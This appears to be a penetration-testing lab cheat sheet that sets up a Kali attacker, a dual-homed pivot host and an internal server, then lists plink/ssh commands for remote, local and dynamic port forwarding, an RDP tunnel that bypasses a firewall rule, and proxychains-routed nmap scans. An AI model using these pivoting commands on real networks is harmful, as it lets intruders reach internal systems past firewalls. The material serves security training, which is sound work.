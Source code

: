 
The Attacking Box (Kali Linux)
IP: 192.168.1.16
Netmask: 255.255.255.0
Gateway: 192.168.1.1

The pivot host (Windows XP) or linux
Dual-Homed – Configure 2 Network Cards in VirtualBox!
user: lowuser
FIRST IP: 192.168.1.30
Netmask: 255.255.255.0
SECOND IP: 10.0.0.2
Netmask: 255.0.0.0

Web server (IIS, Apache – Windows or Linux, whatever u like) -> I use a Windows 2012 server
IP: 10.0.0.10
Netmask: 255.0.0.0

# Port Forwarding


### Remote Forwarding

To get to server at 10.0.0.10

From Target   
`plink 192.168.1.16 -P 22 -C -R 127.0.0.1:4444:10.0.0.10:80`   
`ssh -p 22  -R 127.0.0.1:4444:10.0.0.10:80 root@192.168.1.16`

From Kali   
`curl 127.0.0.1:4444`

### Local Forwarding

Firewall rule blocking 3389

From Target   
`plink 192.168.1.16 -P 22 -C -L 192.168.1.30:3390:192.168.1.30:3389`   
`ssh -p 22 -L 192.168.1.30:3390:192.168.1.30:3389 root@192.168.1.16`

From Kali   
`rdesktop 192.168.1.30:3390`

### dynamic forwarding

From target    
`plink 192.168.1.16 -P 22 -C -R 127.0.0.1:2222:22`    
`ssh -f -N -R 2222:127.0.0.1:22 root@192.168.1.16`

From Kali   
`ssh -f -N -D 127.0.0.1:8080 -p 2222 lowuser@127.0.0.1`

`vi /etc/proxychains.conf`   
`socks4   127.0.0.1   8080`

`proxychains nmap -sT -Pn <IP>`
